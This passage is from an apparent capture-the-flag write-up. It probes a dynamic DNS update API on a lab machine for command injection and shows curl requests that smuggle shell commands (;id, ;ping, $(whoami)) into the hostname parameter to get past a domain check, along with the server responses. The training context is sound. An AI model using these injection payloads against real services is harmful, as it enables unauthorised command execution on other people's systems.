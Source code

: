 ### Testing API

I'll start with a couple simple payloads, `;id` (to see if any output
came back) and `;ping -c 1 10.10.14.8` to see if there's a blind
injection. I'll also use `curl` with the `--data-urlencode` parameter to
pass GET parameters that it encodes for me.

Both return `wrngdom` errors:



    oxdf@parrot$ curl -G --data-urlencode 'hostname=;id' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    911 [wrngdom: ]
    oxdf@parrot$ curl -G --data-urlencode 'hostname=;ping -c 1 10.10.14.8' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    911 [wrngdom: 10.14.8]



The first doesn't give a domain, but the second gives 10.14.8. It looks
like it's looking for the first `.`, and considering the stuff after it
the domain, just like I noticed above. I can test this, and it looks
right:



    oxdf@parrot$ curl -G --data-urlencode 'hostname=a.b.c.d.e.f.g.h.i' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    911 [wrngdom: b.c.d.e.f.g.h.i]



I've got the list of domains from the website. I'll try adding something
to the end of the injection:



    oxdf@parrot$ curl -G --data-urlencode 'hostname=;id;0xdf.no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    911 [nsupdate failed]



That's good confirmation that it's using `nsupdate`, and the fact that I
broke it is a good sign that the injection is working.

### Command Injection POCs

#### whoami

I'd like to add a comment after the domain, but then it won't pass the
domain check. I'll switch from using `;` to end the command to using
`$()` to run a subcommand:



    oxdf@parrot$ curl -G --data-urlencode 'hostname=$(whoami).no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    good 10.10.14.8
